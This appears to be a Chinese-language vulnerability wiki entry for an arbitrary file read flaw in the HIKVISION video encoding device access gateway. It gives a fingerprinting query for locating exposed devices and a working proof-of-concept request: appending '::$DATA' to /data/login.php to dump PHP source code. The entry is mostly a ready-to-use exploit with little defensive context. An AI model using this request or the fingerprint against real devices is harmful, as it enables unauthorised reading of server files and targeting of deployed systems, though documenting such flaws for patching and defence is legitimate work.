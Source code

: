 # HIKVISION 视频编码设备接入网关 $DATA 任意文件读取

## 漏洞描述

HIKVISION 视频编码设备接入网关存在配置错误特性，特殊后缀请求php文件可读取源码

## 漏洞影响

<a-checkbox checked>HIKVISION 视频编码设备接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="视频编码设备接入网关"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628164956874-f53d9c48-6820-4c43-a3e5-aea8b6415ae8.png)

验证POC

```plain
/data/login.php::$DATA
```

![img](/assets/PeiQi-Wiki/img/1628165037205-928b64e5-2476-4511-afee-c562b17a031d.png)